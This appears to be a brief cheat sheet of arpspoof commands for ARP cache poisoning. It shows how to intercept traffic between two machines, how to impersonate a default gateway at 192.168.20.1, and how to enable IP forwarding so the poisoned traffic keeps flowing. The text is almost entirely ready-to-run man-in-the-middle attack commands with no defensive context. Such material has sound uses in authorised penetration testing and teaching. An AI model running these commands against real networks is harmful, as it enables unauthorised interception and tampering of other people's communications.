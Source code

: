 # arp

# ARP cache poisoning

### To intercept communication between two machines

`arpspoof -i eth0 -t <target-ip> <pretend-to-be-ip>`

`arpspoof -i eth0 -t <pretend-to-be-ip> <target-ip>`

### To Impersonate the Default Gateway

`arpspoof -i eth0 -t <target> 192.168.20.1`

`arpspoof -i eth0 -t 192.168.20.1 <target>`

# IP forwarding for ARP poisoning

```
echo 1 > /proc/sys/net/ipv4/ip_forward

```
